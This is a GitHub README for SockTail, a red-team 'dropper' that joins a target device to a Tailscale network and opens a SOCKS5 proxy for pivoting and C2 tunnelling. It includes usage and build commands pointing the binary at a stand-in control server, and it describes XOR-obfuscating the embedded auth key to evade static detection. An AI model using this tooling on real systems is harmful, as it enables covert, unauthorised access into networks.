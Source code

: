 # SockTail


<p align="center">
  <img src="img/SockTail.png" width="250">
</p>

**SockTail** is a small binary that joins a device to a Tailscale network and exposes a local SOCKS5 proxy on port `1080`. It's meant for red team operations where you need network access into a target system without setting up wonky port forwards, persistent daemons, or noisy tunnels.

## Features

* SOCKS5 proxy on port `1080` over Tailscale
* Supports IPv4, IPv6, and domain addresses
* Tailscale join via `tsnet`, no external dependencies
* Auth key can be hardcoded (XOR-obfuscated for static analysis evasion) or supplied at runtime
* Fully self-contained, no configuration files or (disk writes)

This is not meant for persistence. It's a one-shot SOCKS dropper for red team ops.

<p align="center">
  <img src="https://trusted-sec.transforms.svdcdn.com/production/images/Blog-assets/SOCKS_Esteban/Fig3_Esteban.png?w=840&q=90&fm=webp&fit=max&dm=1701370766&s=7fa4e05233215a1f432a7a5d5526ef68" width="400">
</p>
<p align="center">
  <em>Image credit: <a href="https://trustedsec.com/blog/the-socks-we-have-at-home">"The SOCKS We Have at Home" by TrustedSec</a> — thanks for the memes.</em>
</p>



## Usage

```
Usage: ./SockTail [hostname] [authkey] [control-url]

  hostname:    Optional. Auto-generated if not specified
  authkey:     Optional. Uses embedded key if not specified
  control-url: Optional. Uses Tailscale default or build-time URL if not specified
  port:        Fixed at 1080

Examples:
  ./SockTail
    - Auto hostname, embedded key, default control server

  ./SockTail vpn-srv-01
    - Custom hostname, embedded key, default control server

  ./SockTail shellbox-7 tskey-auth-1fXXXXXXXXXXXXXXXXXXXXXXXXXX
    - Custom hostname and runtime auth key, default control server

  ./SockTail my-proxy tskey-auth-1fXXXXXXXXXXXXXXXXXXXXXXXXXX https://headscale.example.com
    - All custom: hostname, auth key, and control server (e.g., Headscale)
```


## How It Works

1. On startup, SockTail creates a `tsnet.Server` using the provided (or embedded) Tailscale auth key and hostname.
2. It joins the Tailnet and starts listening on `localhost:1080`.
3. SOCKS5 negotiation is handled with no authentication (standard NO\_AUTH method).
4. Any CONNECT requests (IPv4, IPv6, domain) are accepted and forwarded using `tsnet.Dial`.
5. Data is relayed bi-directionally until the connection is closed.

There’s no persistence. Once the binary exits, the connection to your Tailnet is dropped.


## Obfuscation

The project includes XOR-based obfuscation for the AuthKey to evade static detections. You can embed your auth key at build time using compiler flags - no manual editing required!

```go
var xorKey = []byte("747sg^8N0$")
```

The key will be XOR-obfuscated and embedded automatically during the build process if no key is passed on the command line.


## Build

Written in Go, no external dependencies:

```bash
# Build with embedded fallback key
make build

# Build with your custom auth key (recommended)
make build-with-key AUTH_KEY=tskey-auth-client-xxxxx-your-key

# Build with custom auth key and control server (for Headscale, etc.)
make build-with-config AUTH_KEY=tskey-auth-client-xxxxx-your-key CONTROL_URL=https://headscale.example.com

# Build for all platforms with your key
make build-all-with-key AUTH_KEY=tskey-auth-client-xxxxx-your-key

# Build for all platforms with custom control server
make build-all-with-config AUTH_KEY=tskey-auth-client-xxxxx-your-key CONTROL_URL=https://headscale.example.com
```

The build system automatically XOR-obfuscates your auth key and embeds both the key and control URL at compile time - no manual source editing required!

**Custom Control Servers**: Perfect for self-hosted Tailscale solutions like [Headscale](https://github.com/juanfont/headscale). Just specify your control server URL and the appropriate auth key for that instance.

## Notes

* Traffic is end-to-end encrypted via Tailscale/WireGuard.
* You can use this to pivot into a network, tunnel C2, or access internal services without exposing ports externally.
* Tailscale ACLs still apply. Make sure your Tailnet allows the correct access to and from the SockTail node.
